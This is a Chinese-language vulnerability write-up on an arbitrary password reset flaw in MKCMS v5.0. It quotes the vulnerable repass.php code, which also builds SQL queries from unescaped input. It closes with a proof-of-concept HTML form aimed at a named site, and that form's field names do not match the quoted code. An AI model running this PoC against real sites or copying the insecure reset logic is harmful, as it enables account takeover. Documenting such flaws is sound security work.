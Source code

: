 MKCMS v5.0 任意密码重置漏洞
===========================

一、漏洞简介
------------

二、漏洞影响
------------

MKCMS v5.0

三、复现过程
------------

漏洞出现在`/ucenter/repass.php`第1-44行:

    <?php 
    include('../system/inc.php');
    if(isset($_SESSION['user_name'])){
    header('location:index.php');
    };

    if(isset($_POST['submit'])){
    $username = stripslashes(trim($_POST['name']));
    $email = trim($_POST['email']);
    // 检测用户名是否存在
    $query = mysql_query("select u_id from mkcms_user where u_name='$username' and u_email='$email'");
    if(!! $row = mysql_fetch_array($query)){
    $_data['u_password'] = md5(123456);
    $sql = 'update mkcms_user set '.arrtoupdate($_data).' where u_name="'.$username.'"';
    if (mysql_query($sql)) {

    $token =$row['u_question'];
    include("emailconfig.php");
        //创建$smtp对象 这里面的一个true是表示使用身份验证,否则不使用身份验证.
        $smtp = new Smtp($MailServer, $MailPort, $smtpuser, $smtppass, true); 
        $smtp->debug = false; 
        $mailType = "HTML"; //信件类型，文本:text；网页：HTML
        $email = $email;  //收件人邮箱
        $emailTitle = "".$mkcms_name."用户找回密码"; //邮件主题
        $emailBody = "亲爱的".$username."：<br/>感谢您在我站注册帐号。<br/>您的初始密码为123456<br/>如果此次找回密码请求非你本人所发，请忽略本邮件。<br/><p style='text-align:right'>-------- ".$mkcms_name." 敬上</p>";

        // sendmail方法
        // 参数1是收件人邮箱
        // 参数2是发件人邮箱
        // 参数3是主题（标题）
        // 参数4是邮件主题（标题）
        // 参数4是邮件内容  参数是内容类型文本:text 网页:HTML
        $rs = $smtp->sendmail($email, $smtpMail, $emailTitle, $emailBody, $mailType);
    if($rs==true){
    echo '<script>alert("请登录到您的邮箱查看您的密码！");window.history.go(-1);</script>';
    }else{
    echo "找回密码失败";
    }

    }
    }
    }

    ?>

本质上来说此处是一个逻辑问题，程序未通过邮箱等验证是否为用户本身就直接先在第13-14行把用户密码重置为`123456`了，根本没管邮件发送成功没有。

![](resource/MKCMSv5.0任意密码重置漏洞/media/rId24.jpg)

### poc

> 构造如下poc.html,并访问poc.html，然后用123456密码登录即可

    <html>
      <body>
      <script>history.pushState('', '', '/')</script>
        <form action="http://v.micool.top/ucenter/repass.php" method="POST">
          <input type="hidden" name="u&#95;name" value="lduo123" />
          <input type="hidden" name="u&#95;email" value="admin&#64;gmail&#46;com" />
          <input type="submit" value="Submit request" />
        </form>                         
      </body>
    </html>

参考链接
--------

> https://xz.aliyun.com/t/4189\#toc-1
>
> https://cisk123456.blogspot.com/2019/04/mkcms-v50.html
